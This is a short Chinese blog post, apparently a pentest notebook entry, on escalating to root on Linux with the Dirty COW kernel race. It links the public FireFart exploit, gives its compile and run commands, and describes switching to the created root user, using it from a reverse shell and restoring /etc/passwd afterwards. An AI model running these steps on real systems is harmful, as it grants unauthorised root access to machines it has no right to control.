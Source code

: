 ```yaml
---
title: "dirtyc0w linux 提权"
date: 2018-01-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Linux 内核的内存子系统在处理写时拷贝 (Copy-on-Write) 时存在条件竞争漏洞, 导致可以破坏私有只读内存映射.

影响范围 Linux kernel >= 2.6.22

基本上2007年到2016年的版本都有这个漏洞

<!--more-->

[FireFart/dirtyc0w](https://github.com/FireFart/dirtycow)

内核版本

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/26/1516963898.jpg)

编译

`gcc -pthread dirty.c -o dirty -lcrypt`

运行

`./dirty yourpassword`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/26/1516964034.jpg)

切换到 firefart 用户

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/26/1516964048.jpg)

uid = 0 root 权限

如果是在反弹的 shell 里执行 直接连接 ssh

别忘了恢复原来的 passwd 文件